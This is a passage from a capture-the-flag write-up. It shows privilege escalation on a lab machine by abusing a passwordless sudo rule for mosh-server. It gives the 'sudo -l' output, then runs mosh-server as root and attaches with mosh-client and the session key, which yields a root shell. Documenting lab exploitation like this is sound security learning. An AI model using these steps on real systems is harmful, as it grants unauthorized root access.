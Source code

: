 we can find wich command we can run with sudo :
```bash
$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
following this [example](https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246) of privilege escalation.

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 buHqA9xrHzu1T2gT4kYAOw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2070]
svcMosh@underpass:~$ MOSH_KEY=buHqA9xrHzu1T2gT4kYAOw mosh-client 127.0.0.1 60001
```
And we obtain a root shell

![alt text](img/8.png)
